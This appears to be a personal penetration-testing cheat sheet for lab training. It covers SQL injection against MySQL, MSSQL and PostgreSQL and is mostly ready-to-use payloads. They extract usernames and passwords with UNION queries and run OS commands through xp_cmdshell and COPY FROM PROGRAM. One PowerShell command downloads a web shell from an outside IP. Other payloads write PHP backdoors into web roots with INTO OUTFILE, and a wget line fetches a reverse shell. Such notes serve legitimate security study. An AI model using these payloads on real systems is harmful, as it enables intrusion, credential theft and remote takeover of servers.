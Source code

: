 #webapp 

SQLite Injection - https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf

URL Encode - 

[[Lessons Learned]]
data
### Connecting to database

##### mysql

```bash
mysql -u root -p'root' -h 192.168.50.16 -P 3306
```
[[MySQL]]

##### MSSQL

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```


[[MSSQL]]

##### POSTgreSQL

[PayloadsAllTheThings/PostgreSQL Injection.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-error-based)


```sql
; DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'cat /var/www/flag.txt'; SELECT * FROM users WHERE 1=cast((SELECT cmd_output FROM cmd_exec)::text AS NUMERIC);
```

### Basic

🔴 // is for any whitespace truncation
```sql
offsec' OR 1=1 -- //
```

```sql
' or 1=1 in (select @@version) -- //
```


```SQL
SELECT * from blog where id=2;-- ## or ;#
```
### Column Number Enumeration

```sql
http://10.11.0.22/debug.php?id=1 order by 1
```

	Increment until you see an error, because this tells to order by 1st column, 2nd column etc

### Steps on Error Based SQLi

1. Check For errors - use '  or "
2. Union column check 

	1,2,3 is just printing the numbers and when the column amount is matched it will show these values, then use the shown values to extract the info you need
	EX: 2,3 -> 2,database()

Use a high number below to find the 
```SQL
' ORDER BY 1-- //
```

```SQL
1 UNION SELECT 1, 2, 3
```
3. Get non existing data
```SQL
0 UNION SELECT 1, 2, 3
```
4. Check database name
```SQL
0 UNION SELECT 1,2,database()
```
5. Check table names
```SQL
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

OR if the showed column number in the webapp is not the last

```sql
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

4. Check column names
```SQL
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```
5. Read the rows
```SQL
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

```sql
' UNION SELECT null, username, password, description, null FROM users -- //
```

### SQLI to Command Executions

##### Enabling the feature

```sql
EXECUTE sp_configure 'show advanced options', 1;
```

```sql
RECONFIGURE;
```

```sql
EXECUTE sp_configure 'xp_cmdshell', 1;
```

```sql
RECONFIGURE;
```

```sql
111'; DECLARE @sTableDiff varchar(1000); SET @sTableDiff= 'powershell -c "(new-object System.Net.WebClient).DownloadFile(''http://192.168.45.178/cmd.aspx'',''c:\inetpub\wwwroot\cmd.aspx'')"'; EXEC xp_cmdshell @sTableDiff; -- -
```
- variable is declared because otherwise the max is 128 chars
- double '  are there because the it needs to be escaped
- trying out the connection use below

```sql
powershell Invoke-WebRequest -Uri http://192.168.45.219
```


##### UNION Based backdoor
- Location is DOCUMENT_ROOT in phpinfo

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

or if single parameter( [[Hawat]])

```sql
Normal' UNION SELECT "<?php echo system($_GET['cmd']);?>" INTO OUTFILE '/srv/http/cma.php' -- //
```


```sql
?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

```sql
id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

After this if you want a rev shell(make sure to URL encode it)

```html
cmd=wget http://192.168.118.3:443/rev.txt -O /srv/http/rev.php'
```


### Blind Boolian SQLi

Use the previous steps but try to make false into True using UNION
🔴 if the user exist only will return result
```sql
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```

```sql
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```



### Time Based SQL
```SQL
admin123' UNION SELECT SLEEP(5),2;--
```




